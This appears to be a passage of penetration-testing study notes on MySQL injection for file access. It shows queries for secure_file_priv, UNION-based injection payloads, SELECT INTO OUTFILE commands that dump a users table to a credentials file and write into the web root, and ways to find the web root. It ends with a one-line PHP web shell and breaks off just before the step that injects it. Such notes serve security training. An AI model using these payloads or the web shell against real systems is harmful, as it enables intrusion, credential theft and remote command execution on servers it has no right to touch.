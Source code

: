 	- variable_name
	- variable_value


```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

## SELECT INTO OUTFILE

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

>[!tip]
>Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

>[!note]
>**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The `UNION` injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```


## Writing a Web Shell

```php
<?php system($_REQUEST[0]); ?>
```

inject it usinq sqli:
